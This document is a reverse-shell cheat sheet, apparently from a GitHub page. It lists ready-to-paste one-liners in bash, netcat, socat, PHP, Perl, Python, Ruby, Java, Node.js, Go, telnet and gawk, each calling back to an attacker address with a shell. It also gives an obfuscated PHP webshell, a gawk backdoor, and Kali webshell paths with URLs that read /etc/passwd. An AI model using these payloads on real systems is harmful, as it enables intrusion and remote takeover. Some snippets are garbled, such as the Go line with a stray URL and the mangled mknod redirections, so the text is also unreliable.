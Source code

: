# Start a listener via NetCat:

```
nc -nvlp 80

nc: listening on [any] 80 ...
nc: listening on :: 80 ...
nc: listening on 0.0.0.0 80 ...
```

## Bash Reverse Shells
```
exec /bin/bash 0&0 2>&00<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/ATTACKING-IP/80

cat <&5 | while read line; do $line 2>&5 >&5; done  

while read line 0<&5; do $line 2>&5 >&5; done

bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```
## Socat Reverse Shell:
```
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
```
## Golang Reverse Shell:
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

## PHP Reverse Shell
```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>

Base64 encrypted by @0xInfection:

<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```
## Netcat Reverse Shell
```
nc -e /bin/sh ATTACKING-IP 80

/bin/sh | nc ATTACKING-IP 80

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## Node.js Reverse Shell:
```
require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');
```
# Telnet Reverse Shell:
```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

Remember to listen on 443 on the attacking machine.
```
# Perl Reverse Shell:
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Perl Windows Reverse Shell:
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# Ruby Reverse Shell:
```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
# Java Reverse Shell:
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
# Python Reverse Shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# Gawk Reverse Shell:
Gawk one liner rev shell by @dmfroberson:
```
gawk 'BEGIN {P=4444;S="> ";H="192.168.1.100";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```
# Kali Web Shells:

The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

Kali PHP reverse shells and command shells:

COMMAND	DESCRIPTION

/usr/share/webshells/php/
php-reverse-shell.php

Pen Test Monkey - PHP Reverse Shell

/usr/share/webshells/
php/php-findsock-shell.php

/usr/share/webshells/
php/findsock.c

Pen Test Monkey, Findsock Shell. Build gcc -o findsock findsock.c (be mindfull of the target servers architecture), execute with netcat not a browser nc -v target 80

/usr/share/webshells/
php/simple-backdoor.php

PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: http://target.com/simple-
backdoor.php?cmd=cat+/etc/passwd

/usr/share/webshells/
php/php-backdoor.php

Larger PHP shell, with a text input box for command execution.

Tip: Executing Reverse Shells
The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.

Kali perl reverse shell:

COMMAND	DESCRIPTION
/usr/share/webshells/perl/
perl-reverse-shell.pl

Pen Test Monkey - Perl Reverse Shell

/usr/share/webshells/
perl/perlcmd.cgi

Pen Test Monkey, Perl Shell. Usage: http://target.com/perlcmd.cgi?cat /etc/passwd

Kali Cold Fusion Shell
Kali Coldfusion Shell:

COMMAND	DESCRIPTION
/usr/share/webshells/cfm/cfexec.cfm

Cold Fusion Shell - aka CFM Shell

Classic ASP Reverse Shell + CMD shells:

COMMAND	DESCRIPTION
/usr/share/webshells/asp/

Kali ASP Shells

Kali ASPX Shells
ASP.NET reverse shells within Kali:

COMMAND	DESCRIPTION
/usr/share/webshells/aspx/

Kali ASPX Shells

Kali JSP Reverse Shell:

COMMAND	DESCRIPTION
/usr/share/webshells/jsp/jsp-reverse.jsp
